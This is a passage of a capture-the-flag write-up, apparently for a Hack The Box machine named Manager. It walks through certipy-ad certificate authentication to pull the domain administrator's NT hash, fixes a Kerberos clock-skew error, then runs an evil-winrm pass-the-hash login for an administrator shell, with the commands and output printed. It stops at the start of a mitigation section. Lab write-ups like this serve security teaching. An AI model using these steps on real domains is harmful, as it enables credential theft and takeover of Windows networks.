 > You might need to change the number 13 to the request ID you get after running the third command.

![cer](3.png)

We got the administrator certificate, now let's use it to get the administrator's hash.

```shell
$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236     

Certipy v4.7.0 - by Oliver Lyak (ly4k)
                                                           
[*] Using principal: administrator@manager.htb                                                                        
[*] Trying to get TGT...    
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

It didn't work because our local time needs to be synchronized with the DC. To do that we can run `rdate -n manager.htb`.

```shell
$ sudo rdate -n manager.htb | certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236  
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

We got administrator's hash, now we can use `pass-the-hash` attack to get a shell.

```bash
$ evil-winrm -i manager.htb -u 'administrator' -H ae5064c2f62317332c88629e025924ef
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
manager\administrator
```

## **Prevention and Mitigation**

### Passwords
